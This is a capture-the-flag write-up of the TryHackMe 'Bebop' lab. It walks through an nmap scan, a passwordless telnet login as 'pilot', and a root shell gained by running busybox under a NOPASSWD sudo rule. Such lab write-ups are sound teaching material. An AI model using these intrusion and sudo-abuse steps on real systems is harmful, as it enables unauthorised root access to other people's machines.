 ```yaml
---
title: "TryHackMe - Bebop"
author: Nasrallah
description: ""
date: 2023-01-07 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, sudo, telnet]
img_path: /assets/img/tryhackme/
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Bebop](https://tryhackme.com/room/bebop) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.63.34
Host is up (0.099s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
| ssh-hostkey: 
|   2048 5b:e6:85:66:d8:dd:04:f0:71:7a:81:3c:58:ad:0b:b9 (RSA)
|   256 d5:4e:18:45:ba:d4:75:2d:55:2f:fe:c9:1c:db:ce:cb (ECDSA)
|_  256 96:fc:cc:3e:69:00:79:85:14:2a:e4:5f:0d:35:08:d4 (ED25519)
23/tcp open  telnet  BSD-derived telnetd
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

```

We found two open ports, 22/tcp running OpenSSH and 23/tcp running telnetd on FreeBSD OS.

## **Foothold**

At the first task we were given codename **pilot**, so let's try connecting to telnet using that name.

```bash
$ telnet 10.10.63.34
Trying 10.10.63.34...
Connected to 10.10.63.34.
Escape character is '^]'.
login: pilot
Last login: Sun Dec 25 10:29:02 from ip-10-11-14-124.eu-west-1.compute.internal
FreeBSD 11.2-STABLE (GENERIC) #0 r345837: Thu Apr  4 02:07:22 UTC 2019

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Need to quickly return to your home directory? Type "cd".
                -- Dru <genesis@istar.ca>
[pilot@freebsd ~]$ 

```

Great! We got the initial shell.

## **Privilege Escalation**

Let's check out privileges with `sudo -l`.

```bash
[pilot@freebsd ~]$ sudo -l
User pilot may run the following commands on freebsd:
    (root) NOPASSWD: /usr/local/bin/busybox
```

We can run `busybox` as root.

Checking busybox on [GTFOBins](https://gtfobins.github.io/gtfobins/busybox/#sudo), we see that we can run `sudo busybox sh` and get root.

```terminal
[pilot@freebsd ~]$ sudo busybox sh
# whoami
root
# id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)

```

Nice, we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
